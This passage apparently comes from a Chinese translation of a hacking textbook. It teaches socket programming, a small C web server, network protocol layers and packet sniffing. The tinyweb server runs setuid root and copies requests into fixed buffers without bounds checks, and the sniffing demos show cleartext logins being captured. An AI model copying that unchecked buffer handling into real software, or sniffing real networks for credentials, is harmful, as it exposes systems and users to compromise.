      fatal("in socket");

   target_addr.sin_family = AF_INET;
   target_addr.sin_port = htons(80);
   target_addr.sin_addr = *((struct in_addr *)host_info->h_addr);
   memset(&(target_addr.sin_zero), '\0', 8); // Zero the rest of the struct.

   if (connect(sockfd, (struct sockaddr *)&target_addr, sizeof(struct sockaddr)) == -1)
      fatal("connecting to target server");

   send_string(sockfd, "HEAD / HTTP/1.0\r\n\r\n");
   while(recv_line(sockfd, buffer)) {
      if(strncasecmp(buffer, "Server:", 7) == 0) {
         printf("The web server for %s is %s\n", argv[1], buffer+8);
         exit(0);
      }
   }
   printf("Server line not found\n");
   exit(1);
}
```

现在大部分代码应该对你来说都是有意义的。`target_addr`结构的`sin_addr`元素使用之前的方法通过类型转换和间接引用填充了`host_info`结构中的地址。调用`connect()`函数连接到目标主机的 80 端口，发送命令字符串，程序循环读取每一行到缓冲区。`strncasecmp()`函数是 strings.h 中的字符串比较函数。此函数比较两个字符串的前*n*个字节，忽略大小写。前两个参数是字符串的指针，第三个参数是*n*，要比较的字节数。如果字符串匹配，函数将返回`0`，因此`if`语句正在寻找以`"Server:"`开头的行。当找到它时，它将删除前八个字节并打印出网络服务器的版本信息。以下列表显示了程序的编译和执行。

```
reader@hacking:~/booksrc $ gcc -o webserver_id webserver_id.c
reader@hacking:~/booksrc $ ./webserver_id www.internic.net
The web server for www.internic.net is Apache/2.0.52 (CentOS)
reader@hacking:~/booksrc $ ./webserver_id www.microsoft.com
The web server for www.microsoft.com is Microsoft-IIS/7.0
reader@hacking:~/booksrc $
```

## 一个 Tinyweb 服务器

网络服务器不必比我们在上一节中创建的简单服务器复杂得多。在接收 TCP-IP 连接后，网络服务器需要使用 HTTP 协议实现进一步的通信层。

下面列出的服务器代码几乎与简单服务器相同，除了连接处理代码被分离到自己的函数中。此函数处理来自网络浏览器的 HTTP `GET`和`HEAD`请求。程序将在名为 webroot 的本地目录中查找请求的资源并将其发送到浏览器。如果找不到文件，服务器将返回 404 HTTP 响应。你可能已经熟悉这个响应，这意味着*文件未找到*。完整的源代码列表如下。

### tinyweb.c

```
#include <stdio.h>
#include <fcntl.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include "hacking.h"
#include "hacking-network.h"

#define PORT 80   // The port users will be connecting to
#define WEBROOT "./webroot" // The web server's root directory

void handle_connection(int, struct sockaddr_in *); // Handle web requests
int get_file_size(int); // Returns the filesize of open file descriptor

int main(void) {
   int sockfd, new_sockfd, yes=1;
   struct sockaddr_in host_addr, client_addr;   // My address information
   socklen_t sin_size;

   printf("Accepting web requests on port %d\n", PORT);

   if ((sockfd = socket(PF_INET, SOCK_STREAM, 0)) == -1)
      fatal("in socket");

   if (setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &yes, sizeof(int)) == -1)
      fatal("setting socket option SO_REUSEADDR");

   host_addr.sin_family = AF_INET;      // Host byte order
   host_addr.sin_port = htons(PORT);    // Short, network byte order
   host_addr.sin_addr.s_addr = INADDR_ANY; // Automatically fill with my IP.
   memset(&(host_addr.sin_zero), '\0', 8); // Zero the rest of the struct.

   if (bind(sockfd, (struct sockaddr *)&host_addr, sizeof(struct sockaddr)) == -1)
      fatal("binding to socket");

   if (listen(sockfd, 20) == -1)
      fatal("listening on socket");

   while(1) {   // Accept loop.
      sin_size = sizeof(struct sockaddr_in);
      new_sockfd = accept(sockfd, (struct sockaddr *)&client_addr, &sin_size);
      if(new_sockfd == -1)
         fatal("accepting connection");

      handle_connection(new_sockfd, &client_addr);
   }
   return 0;
}

/* This function handles the connection on the passed socket from the
 * passed client address.  The connection is processed as a web request,
 * and this function replies over the connected socket.  Finally, the
 * passed socket is closed at the end of the function.
 */
void handle_connection(int sockfd, struct sockaddr_in *client_addr_ptr) {
   unsigned char *ptr, request[500], resource[500];
   int fd, length;

   length = recv_line(sockfd, request);

   printf("Got request from %s:%d \"%s\"\n", inet_ntoa(client_addr_ptr->sin_addr),
ntohs(client_addr_ptr->sin_port), request);

   ptr = strstr(request, " HTTP/"); // Search for valid-looking request.
   if(ptr == NULL) { // Then this isn't valid HTTP.
      printf(" NOT HTTP!\n");
   } else {
      *ptr = 0; // Terminate the buffer at the end of the URL.
      ptr = NULL; // Set ptr to NULL (used to flag for an invalid request).
      if(strncmp(request, "GET ", 4) == 0)  // GET request
         ptr = request+4; // ptr is the URL.
      if(strncmp(request, "HEAD ", 5) == 0) // HEAD request
         ptr = request+5; // ptr is the URL.

      if(ptr == NULL) { // Then this is not a recognized request.
         printf("\tUNKNOWN REQUEST!\n");
      } else { // Valid request, with ptr pointing to the resource name
         if (ptr[strlen(ptr) - 1] == '/')  // For resources ending with '/',
            strcat(ptr, "index.html");     // add 'index.html' to the end.
         strcpy(resource, WEBROOT);     // Begin resource with web root path
         strcat(resource, ptr);         //  and join it with resource path.
         fd = open(resource, O_RDONLY, 0); // Try to open the file.
         printf("\tOpening \'%s\'\t", resource);
         if(fd == -1) { // If file is not found
            printf(" 404 Not Found\n");
            send_string(sockfd, "HTTP/1.0 404 NOT FOUND\r\n");
            send_string(sockfd, "Server: Tiny webserver\r\n\r\n");
            send_string(sockfd, "<html><head><title>404 Not Found</title></head>");
            send_string(sockfd, "<body><h1>URL not found</h1></body></html>\r\n");
         } else {      // Otherwise, serve up the file.
            printf(" 200 OK\n");
            send_string(sockfd, "HTTP/1.0 200 OK\r\n");
            send_string(sockfd, "Server: Tiny webserver\r\n\r\n");
            if(ptr == request + 4) { // Then this is a GET request
               if( (length = get_file_size(fd)) == -1)
                  fatal("getting resource file size");
               if( (ptr = (unsigned char *) malloc(length)) == NULL)
                  fatal("allocating memory for reading resource");
               read(fd, ptr, length); // Read the file into memory.
               send(sockfd, ptr, length, 0);  // Send it to socket.
               free(ptr); // Free file memory.
            }
            close(fd); // Close the file.
         } // End if block for file found/not found.
      } // End if block for valid request.
   } // End if block for valid HTTP.
   shutdown(sockfd, SHUT_RDWR); // Close the socket gracefully.
}

/* This function accepts an open file descriptor and returns
 * the size of the associated file.  Returns -1 on failure.
 */
int get_file_size(int fd) {
   struct stat stat_struct;

   if(fstat(fd, &stat_struct) == -1)
      return -1;
   return (int) stat_struct.st_size;
}
```

`handle_connection`函数使用`strstr()`函数在请求缓冲区中查找子字符串`HTTP/`。`strstr()`函数返回指向子字符串的指针，该指针将位于请求的末尾。字符串在这里被终止，`HEAD`和`GET`请求被识别为可处理请求。`HEAD`请求将仅返回头部信息，而`GET`请求将返回请求的资源（如果可以找到）。

文件 index.html 和 image.jpg 已经被放入 webroot 目录中，如下面的输出所示，然后编译了 tinyweb 程序。绑定任何小于 1024 的端口需要 root 权限，因此程序被设置为 root 用户执行。服务器的调试输出显示了浏览器对 http://127.0.0.1 的请求结果。

```
reader@hacking:~/booksrc $ ls -l webroot/
total 52
-rwxr--r-- 1 reader reader 46794 2007-05-28 23:43 image.jpg
-rw-r--r-- 1 reader reader   261 2007-05-28 23:42 index.html
reader@hacking:~/booksrc $ cat webroot/index.html 
<html>
<head><title>A sample webpage</title></head>
<body bgcolor="#000000" text="#ffffffff">
<center>
<h1>This is a sample webpage</h1>
...and here is some sample text<br>
<br>
..and even a sample image:<br>
<br>
</center>
</body>
</html>
reader@hacking:~/booksrc $ gcc -o tinyweb tinyweb.c
reader@hacking:~/booksrc $ sudo chown root ./tinyweb
reader@hacking:~/booksrc $ sudo chmod u+s ./tinyweb
reader@hacking:~/booksrc $ ./tinyweb
Accepting web requests on port 80
Got request from 127.0.0.1:52996 "GET / HTTP/1.1"
        Opening './webroot/index.html'   200 OK
Got request from 127.0.0.1:52997 "GET /image.jpg HTTP/1.1"
        Opening './webroot/image.jpg'    200 OK
Got request from 127.0.0.1:52998 "GET /favicon.ico HTTP/1.1"
        Opening './webroot/favicon.ico' 404 Not Found
```

地址 127.0.0.1 是一个特殊的回环地址，它指向本地机器。初始请求从 web 服务器获取 index.html，然后 web 服务器又请求 image.jpg。此外，浏览器还会自动请求 favicon.ico，试图获取网页的图标。下面的截图显示了浏览器中这个请求的结果。


图 0x400-3。

# 撕开底层

当你使用网页浏览器时，所有七层 OSI 模型都会为你处理，让你可以专注于浏览而不是协议。在 OSI 模型的较高层，许多协议可以是明文，因为所有其他连接的细节已经被较低层处理好了。套接字存在于会话层（5），它提供了一个接口，用于从一个主机向另一个主机发送数据。传输层的 TCP（4）提供可靠性和传输控制，而网络层的 IP（3）提供寻址和包级通信。数据链路层的以太网（2）提供以太网端口之间的寻址，适用于基本的局域网（Local Area Network）通信。在最底层，物理层（1）仅仅是电线和用于将比特从一台设备发送到另一台设备的协议。一个单独的 HTTP 消息会在通过通信的不同方面时被包裹在多个层中。

这个过程可以想象成一个复杂的内部办公室官僚机构，让人联想到电影*巴西*。在每一层，都有一个高度专业化的接待员，他们只理解该层的语言和协议。当数据包传输时，每个接待员都会执行她特定层的必要职责，将数据包放入一个内部办公室的信封中，在外部写上标题，并将其传递给下一层的接待员。那个接待员接着执行他层的必要职责，将整个信封放入另一个信封中，在外部写上标题，然后传递出去。网络流量是服务器、客户端和对等连接的嘈杂官僚机构。在较高层，流量可能是财务数据、电子邮件或基本上任何东西。无论数据包包含什么，用于将数据从 A 点移动到 B 点的较低层使用的协议通常都是相同的。一旦你理解了这些常见底层协议的办公室官僚机构，你就可以查看传输中的信封，甚至伪造文件来操纵系统。

## 数据链路层

最低的可视层是数据链路层。回到接待员和官僚主义的类比，如果将下面的物理层视为办公室邮件车，将上面的网络层视为全球邮政系统，那么数据链路层就是办公室邮件系统。这一层提供了一种向办公室内的任何人发送消息并确定谁在办公室的方法。

以太网存在于这一层，为所有以太网设备提供标准地址系统。这些地址被称为媒体访问控制（MAC）地址。每个以太网设备都被分配一个全球唯一的地址，由六个字节组成，通常以十六进制形式书写，形式为`xx:xx:xx:xx:xx:xx`。这些地址有时也被称为硬件地址，因为每个地址都是独一无二的，存储在设备的集成电路内存中。可以将 MAC 地址视为硬件的社保号码，因为每块硬件都应该有一个唯一的 MAC 地址。

以太网头部大小为 14 字节，包含此以太网数据包的源 MAC 地址和目的 MAC 地址。以太网地址还提供了一个特殊的广播地址，由所有二进制 1 组成（`ff:ff:ff:ff:ff:ff`）。任何发送到该地址的以太网数据包都将发送到所有连接的设备。

网络设备的 MAC 地址不应该改变，但它的 IP 地址可能会定期改变。在这一层，IP 地址的概念不存在，只有硬件地址，因此需要一种方法来关联这两种地址方案。在办公室里，寄给办公室地址的员工邮件会送到相应的办公桌。在以太网中，这种方法被称为地址解析协议（ARP）。

此协议允许创建“座位图”，将一个 IP 地址与一块硬件关联起来。ARP 消息有四种不同类型，但最重要的两种类型是*ARP 请求消息*和*ARP 回复消息*。任何数据包的以太网头部都包含一个类型值，用于描述该数据包。此类型用于指定数据包是 ARP 类型消息还是 IP 数据包。

ARP 请求是一条发送到广播地址的消息，其中包含发送者的 IP 地址和 MAC 地址，基本上是这么说的：“嘿，谁有这个 IP？如果是你，请回复并告诉我你的 MAC 地址。”ARP 回复是对请求者的 MAC 地址（以及 IP 地址）的相应回复，表示：“这是我的 MAC 地址，我拥有这个 IP 地址。”大多数实现都会暂时缓存 ARP 回复中接收到的 MAC/IP 地址对，这样就不需要为每个数据包都进行 ARP 请求和回复。这些缓存就像办公室的座位图。

例如，如果一个系统具有 IP 地址 10.10.10.20 和 MAC 地址`00:00:00:aa:aa:aa`，而同一网络上的另一个系统具有 IP 地址 10.10.10.50 和 MAC 地址`00:00:00:bb:bb:bb`，那么这两个系统在知道彼此的 MAC 地址之前无法相互通信。


图 0x400-4.

如果第一个系统想要通过 IP 连接到第二个设备的 IP 地址 10.10.10.50，第一个系统将首先检查其 ARP 缓存以查看是否存在针对 10.10.10.50 的条目。由于这是这两个系统第一次尝试通信，将不会有这样的条目，并将向广播地址发送一个 ARP 请求，内容为：“如果你是 10.10.10.50，请通过`00:00:00:aa:aa:aa`响应我。”由于此请求使用广播地址，网络上的每个系统都能看到请求，但只有具有相应 IP 地址的系统需要响应。在这种情况下，第二个系统会向`00:00:00:aa:aa:aa`发送一个 ARP 回复，内容为：“我是 10.10.10.50，我在`00:00:00:bb:bb:bb`。”第一个系统接收到这个回复，将其 ARP 缓存中的 IP 和 MAC 地址对缓存起来，并使用硬件地址进行通信。

## 网络层

网络层就像一个全球邮政服务，提供了一种用于发送物品到任何地方的寻址和交付方法。在这个层上用于互联网寻址和交付的协议，恰当地被称为互联网协议（IP）；互联网的大多数部分使用 IP 版本 4。

互联网上的每个系统都有一个 IP 地址，由熟悉的四字节排列形式`xx.xx.xx.xx`组成。在这个层上数据包的 IP 头部大小为 20 字节，由 RFC 791 中定义的各种字段和位标志组成。

### 来自 RFC 791

```
[Page 10]
September 1981
                                                       Internet Protocol
                           3\.  SPECIFICATION

3.1\.  Internet Header Format

  A summary of the contents of the internet header follows:

    0                   1                   2                   3
    0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |Version|  IHL  |Type of Service|          Total Length         |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |         Identification        |Flags|      Fragment Offset    |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |  Time to Live |    Protocol   |         Header Checksum       |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |                       Source Address                          |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |                    Destination Address                        |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |                    Options                    |    Padding    |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+

                    Example Internet Datagram Header

                               Figure 4.
Note that each tick mark represents one bit position.
```

这张令人惊讶的描述性 ASCII 图显示了这些字段及其在头部中的位置。标准协议有出色的文档。类似于以太网头部，IP 头部也有一个协议字段来描述数据包中的数据类型以及用于路由的源地址和目标地址。此外，头部还携带一个校验和，以帮助检测传输错误，以及处理数据包分片的字段。

互联网协议主要用于传输被更高层包裹的数据包。然而，在这个层上还存在互联网控制消息协议（ICMP）数据包。ICMP 数据包用于消息和诊断。IP 不如邮局可靠——无法保证 IP 数据包实际上会到达其最终目的地。如果出现问题，将发送一个 ICMP 数据包回通知发送者问题。

ICMP 也常用于测试连通性。ping 工具使用 ICMP 回显请求和回显回复消息。如果一个主机想要测试它是否能够路由流量到另一个主机，它会通过发送一个 ICMP 回显请求来 ping 远程主机。当收到 ICMP 回显请求后，远程主机会发送一个 ICMP 回显回复。这些消息可以用来确定两个主机之间的连接延迟。然而，重要的是要记住，ICMP 和 IP 都是无连接的；这个协议层真正关心的是将数据包发送到其目标地址。

有时网络链路会对数据包大小有限制，不允许传输大数据包。IP 可以通过碎片化数据包来处理这种情况，如图所示。


图 0x400-5。

数据包被分割成更小的数据包片段，这些片段可以通过网络链路传输，每个片段都会加上 IP 头部，然后发送出去。每个片段都有一个不同的片段偏移值，这个值存储在头部中。当目的地收到这些片段时，会使用偏移值来重新组装原始的 IP 数据包。

如碎片化之类的规定有助于 IP 数据包的交付，但这并不能维持连接或确保交付。这是传输层协议的工作。

## 传输层

可以将传输层想象为办公室接待员的第一线，从网络层接收邮件。如果客户想要退回一件有缺陷的商品，他们会发送一条请求退货材料授权（RMA）号码的消息。然后接待员会遵循退货协议，要求收据，并最终发放一个 RMA 号码，以便客户可以邮寄产品。邮局只关心来回发送这些消息（和包裹），而不关心它们的内容。

在这一层有两个主要的协议：传输控制协议（TCP）和用户数据报协议（UDP）。TCP 是互联网上最常用的协议，用于各种服务：telnet、HTTP（网页流量）、SMTP（电子邮件流量）和 FTP（文件传输）都使用 TCP。TCP 流行的一个原因是它提供了透明、可靠且双向的连接，连接两个 IP 地址。流套接字使用 TCP/IP 连接。TCP 的双向连接类似于使用电话——拨号后，通过一个连接双方可以通信。可靠性简单来说就是 TCP 会确保所有数据都能按正确的顺序到达目的地。如果连接中的数据包顺序混乱并到达顺序错误，TCP 会确保在将数据交给下一层之前将它们重新排序。如果在连接中间丢失了一些数据包，目的地会保留它已经收到的数据包，而源端会重新传输丢失的数据包。

所有这些功能都是通过一组标志实现的，这些标志被称为*TCP 标志*，以及通过跟踪值称为*序列号*。TCP 标志如下：

| TCP 标志 | 含义 | 目的 |
| --- | --- | --- |
| URG | 紧急 | 标识重要数据 |
| ACK | 确认 | 确认一个数据包；在大多数连接中都是开启的 |
| PSH | 推送 | 告诉接收方直接推送数据而不是缓冲它 |
| RST | 重置 | 重置一个连接 |
| SYN | 同步 | 在连接开始时同步序列号 |
| FIN | 结束 | 当双方都告别时，优雅地关闭连接 |

这些标志存储在 TCP 头部，与源端口和目标端口一起。TCP 头部在 RFC 793 中指定。

### 来自 RFC 793

```
[Page 14]

September 1981
                                           Transmission Control Protocol

                      3\.  FUNCTIONAL SPECIFICATION

3.1\.  Header Format

  TCP segments are sent as internet datagrams.  The Internet Protocol
  header carries several information fields, including the source and
  destination host addresses [2].  A TCP header follows the internet
  header, supplying information specific to the TCP protocol.  This
  division allows for the existence of host level protocols other than
  TCP.

  TCP Header Format

    0                   1                   2                   3
    0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |          Source Port          |       Destination Port        |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |                        Sequence Number                        |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |                    Acknowledgment Number                      |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |  Data |           |U|A|P|R|S|F|                               |
   | Offset| Reserved  |R|C|S|S|Y|I|            Window             |
   |       |           |G|K|H|T|N|N|                               |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |           Checksum            |         Urgent Pointer        |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |                    Options                    |    Padding    |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |                             data                              |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+

                            TCP Header Format

          Note that one tick mark represents one bit position.

                               Figure 3.
```

序列号和确认号用于维护状态。SYN 和 ACK 标志一起用于在三个步骤的握手过程中打开连接。当客户端想要与服务器建立连接时，会发送一个带有 SYN 标志但 ACK 标志关闭的数据包到服务器。然后服务器响应一个同时带有 SYN 和 ACK 标志的数据包。为了完成连接，客户端发送一个带有 SYN 标志关闭但 ACK 标志开启的数据包。之后，连接中的每个数据包都将开启 ACK 标志并关闭 SYN 标志。只有连接的前两个数据包带有 SYN 标志，因为那些数据包用于同步序列号。



图 0x400-6.

序列号允许 TCP 将无序的数据包重新排序，确定数据包是否缺失，并防止混淆来自其他连接的数据包。

当一个连接被发起时，每一方都会生成一个初始序列号。这个数字在连接握手的前两个 SYN 数据包中传达给对方。然后，随着每个数据包的发送，序列号会根据数据包数据部分的字节数增加。这个序列号包含在 TCP 数据包头部中。此外，每个 TCP 头部都有一个确认号，它简单地是另一方的序列号加一。

TCP 非常适合需要可靠性和双向通信的应用程序。然而，这种功能的代价是通信开销。

UDP 比 TCP 有更少的开销和内置功能。这种缺乏功能使得它表现得非常像 IP 协议：它是无连接和不可靠的。没有内置的功能来创建连接并保持可靠性，UDP 是一种期望应用程序处理这些问题的替代方案。有时不需要连接，轻量级的 UDP 对于这些情况来说是一个更好的协议。UDP 头，在 RFC 768 中定义，相对较小。它只包含以下顺序的四个 16 位值：源端口、目的端口、长度和校验和。

# 网络嗅探

在数据链路层，存在交换网络和非交换网络之间的区别。在*非交换网络*上，以太网数据包通过网络上的每个设备，期望每个系统设备只查看发送到其目的地址的数据包。然而，将设备设置为*混杂模式*相对简单，这会导致它查看所有数据包，无论目的地址如何。大多数数据包捕获程序，如 tcpdump，默认将它们监听的设备置于混杂模式。混杂模式可以使用`ifconfig`设置，如下面的输出所示。

```
reader@hacking:~/booksrc $ ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 00:0C:29:34:61:65
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:17115 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1927 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:4602913 (4.3 MiB)  TX bytes:434449 (424.2 KiB)
          Interrupt:16 Base address:0x2024

reader@hacking:~/booksrc $ sudo ifconfig eth0 promisc
reader@hacking:~/booksrc $ ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 00:0C:29:34:61:65
          UP BROADCAST RUNNING PROMISC MULTICAST  MTU:1500  Metric:1
          RX packets:17181 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1927 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:4668475 (4.4 MiB)  TX bytes:434449 (424.2 KiB)

          Interrupt:16 Base address:0x2024

reader@hacking:~/booksrc $
```

捕获并非一定供公众查看的数据包的行为被称为*嗅探*。在非交换网络上以混杂模式嗅探数据包可以揭示各种有用的信息，如下面的输出所示。

```
reader@hacking:~/booksrc $ sudo tcpdump -l -X 'ip host 192.168.0.118'
tcpdump: listening on eth0
21:27:44.684964 192.168.0.118.ftp > 192.168.0.193.32778: P 1:42(41) ack 1 win
17316 <nop,nop,timestamp 466808 920202> (DF)
0x0000   4500 005d e065 4000 8006 97ad c0a8 0076        E..].e@........v
0x0010   c0a8 00c1 0015 800a 292e 8a73 5ed4 9ce8        ........)..s^...
0x0020   8018 43a4 a12f 0000 0101 080a 0007 1f78        ..C../.........x
0x0030   000e 0a8a 3232 3020 5459 5053 6f66 7420        ....220.TYPSoft.
0x0040   4654 5020 5365 7276 6572 2030 2e39 392e        FTP.Server.0.99.
0x0050   3133                                           13
21:27:44.685132 192.168.0.193.32778 > 192.168.0.118.ftp: . ack 42 win 5840
<nop,nop,timestamp 920662 466808> (DF) [tos 0x10]
0x0000   4510 0034 966f 4000 4006 21bd c0a8 00c1        E..4.o@.@.!.....
0x0010   c0a8 0076 800a 0015 5ed4 9ce8 292e 8a9c        ...v....^...)...
0x0020   8010 16d0 81db 0000 0101 080a 000e 0c56        ...............V
0x0030   0007 1f78                                      ...x
21:27:52.406177 192.168.0.193.32778 > 192.168.0.118.ftp: P 1:13(12) ack 42 win
5840 <nop,nop,timestamp 921434 466808> (DF) [tos 0x10]
0x0000   4510 0040 9670 4000 4006 21b0 c0a8 00c1        E..@.p@.@.!.....
0x0010   c0a8 0076 800a 0015 5ed4 9ce8 292e 8a9c        ...v....^...)...
0x0020   8018 16d0 edd9 0000 0101 080a 000e 0f5a        ...............Z
0x0030   0007 1f78 5553 4552 206c 6565 6368 0d0a        ...xUSER`.leech..`
21:27:52.415487 192.168.0.118.ftp > 192.168.0.193.32778: P 42:76(34) ack 13
win 17304 <nop,nop,timestamp 466885 921434> (DF)
0x0000   4500 0056 e0ac 4000 8006 976d c0a8 0076        E..V..@....m...v
0x0010   c0a8 00c1 0015 800a 292e 8a9c 5ed4 9cf4        ........)...^...
0x0020   8018 4398 4e2c 0000 0101 080a 0007 1fc5        ..C.N,..........
0x0030   000e 0f5a 3333 3120 5061 7373 776f 7264        ...Z331.Password
0x0040   2072 6571 7569 7265 6420 666f 7220 6c65        .required.for.le
0x0050   6563                                           ec
21:27:52.415832 192.168.0.193.32778 > 192.168.0.118.ftp: . ack 76 win 5840
<nop,nop,timestamp 921435 466885> (DF) [tos 0x10]
0x0000   4510 0034 9671 4000 4006 21bb c0a8 00c1        E..4.q@.@.!.....
0x0010   c0a8 0076 800a 0015 5ed4 9cf4 292e 8abe        ...v....^...)...
0x0020   8010 16d0 7e5b 0000 0101 080a 000e 0f5b        ....~[.........[
0x0030   0007 1fc5                                      ....
21:27:56.155458 192.168.0.193.32778 > 192.168.0.118.ftp: P 13:27(14) ack 76
win 5840 <nop,nop,timestamp 921809 466885> (DF) [tos 0x10]
0x0000   4510 0042 9672 4000 4006 21ac c0a8 00c1        E..B.r@.@.!.....
0x0010   c0a8 0076 800a 0015 5ed4 9cf4 292e 8abe        ...v....^...)...
0x0020   8018 16d0 90b5 0000 0101 080a 000e 10d1        ................
0x0030   0007 1fc5 5041 5353 206c 3840 6e69 7465        ....PASS.`l8@nite`
0x0040   0d0a                                           ..
21:27:56.179427 192.168.0.118.ftp > 192.168.0.193.32778: P 76:103(27) ack 27
win 17290 <nop,nop,timestamp 466923 921809> (DF)
0x0000   4500 004f e0cc 4000 8006 9754 c0a8 0076        E..O..@....T...v
0x0010   c0a8 00c1 0015 800a 292e 8abe 5ed4 9d02        ........)...^...
0x0020   8018 438a 4c8c 0000 0101 080a 0007 1feb        ..C.L...........
0x0030   000e 10d1 3233 3020 5573 6572 206c 6565        ....230.User.lee
0x0040   6368 206c 6f67 6765 6420 696e 2e0d 0a          ch.logged.in...
```

通过 telnet、FTP 和 POP3 等服务在网络中传输的数据是不加密的。在先前的例子中，可以看到用户`leech`正在使用密码`l8@nite`登录 FTP 服务器。由于登录过程中的认证过程也是不加密的，因此用户名和密码只是包含在传输数据包的数据部分中。

`tcpdump`是一个功能强大的通用数据包嗅探器，但也有一些专门设计的嗅探工具，旨在搜索用户名和密码。一个值得注意的例子是 Dug Song 的程序`dsniff`，它足够智能，可以解析出看起来重要的数据。

```
reader@hacking:~/booksrc $ sudo dsniff -n
dsniff: listening on eth0
-----------------
12/10/02 21:43:21 tcp 192.168.0.193.32782 -> 192.168.0.118.21 (ftp)
USER leech
PASS l8@nite

-----------------
12/10/02 21:47:49 tcp 192.168.0.193.32785 -> 192.168.0.120.23 (telnet)
USER root 
PASS 5eCr3t
```

## 原始套接字嗅探器

到目前为止，在我们的代码示例中，我们一直在使用流套接字。当使用流套接字发送和接收时，数据被整洁地封装在 TCP/IP 连接中。访问会话（5）层的 OSI 模型，操作系统负责所有低级传输、纠正和路由的细节。可以使用原始套接字在网络较低层进行访问。在这一层，所有细节都暴露出来，必须由程序员显式处理。原始套接字通过使用`SOCK_RAW`作为类型来指定。在这种情况下，协议很重要，因为有多种选项。协议可以是`IPPROTO_TCP, IPPROTO_UDP`或`IPPROTO_ICMP`。以下是一个使用原始套接字的 TCP 嗅探程序的示例。

### raw_tcpsniff.c

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

#include "hacking.h"

int main(void) {
   int i, recv_length, sockfd;

   u_char buffer[9000];

   if ((sockfd = socket(PF_INET, SOCK_RAW, IPPROTO_TCP)) == -1)
      fatal("in socket");

   for(i=0; i < 3; i++) {
      recv_length = recv(sockfd, buffer, 8000, 0);
      printf("Got a %d byte packet\n", recv_length);
      dump(buffer, recv_length);
   }
}
```

此程序打开一个原始 TCP 套接字并监听三个数据包，使用`dump()`函数打印每个数据包的原始数据。请注意，缓冲区被声明为一个`u_char`变量。这只是一个来自 sys/socket.h 的便利类型定义，展开为"unsigned char"。这是为了方便，因为在网络编程中经常使用无符号变量，每次都输入`unsigned`是很麻烦的。

编译后，程序需要以 root 用户身份运行，因为使用原始套接字需要 root 权限。以下输出显示了程序在发送示例文本到我们的简单服务器时嗅探网络。

```
reader@hacking:~/booksrc $ gcc -o raw_tcpsniff raw_tcpsniff.c
reader@hacking:~/booksrc $ ./raw_tcpsniff
[!!] Fatal Error in socket: Operation not permitted
reader@hacking:~/booksrc $ sudo ./raw_tcpsniff
Got a 68 byte packet
45 10 00 44 1e 36 40 00 40 06 46 23 c0 a8 2a 01 | E..D.6@.@.F#..*.
c0 a8 2a f9 8b 12 1e d2 ac 14 cf 92 e5 10 6c c9 | ..*...........l.
80 18 05 b4 32 47 00 00 01 01 08 0a 26 ab 9a f1 | ....2G......&...
02 3b 65 b7 74 68 69 73 20 69 73 20 61 20 74 65 | .;e.this is a te
73 74 0d 0a                                     | st..
Got a 70 byte packet
45 10 00 46 1e 37 40 00 40 06 46 20 c0 a8 2a 01 | E..F.7@.@.F ..*.
c0 a8 2a f9 8b 12 1e d2 ac 14 cf a2 e5 10 6c c9 | ..*...........l.
80 18 05 b4 27 95 00 00 01 01 08 0a 26 ab a0 75 | ....'.......&..u
02 3c 1b 28 41 41 41 41 41 41 41 41 41 41 41 41 | .<.(AAAAAAAAAAAA
41 41 41 41 0d 0a                               | AAAA..
Got a 71 byte packet
45 10 00 47 1e 38 40 00 40 06 46 1e c0 a8 2a 01 | E..G.8@.@.F...*.
c0 a8 2a f9 8b 12 1e d2 ac 14 cf b4 e5 10 6c c9 | ..*...........l.
80 18 05 b4 68 45 00 00 01 01 08 0a 26 ab b6 e7 | ....hE......&...
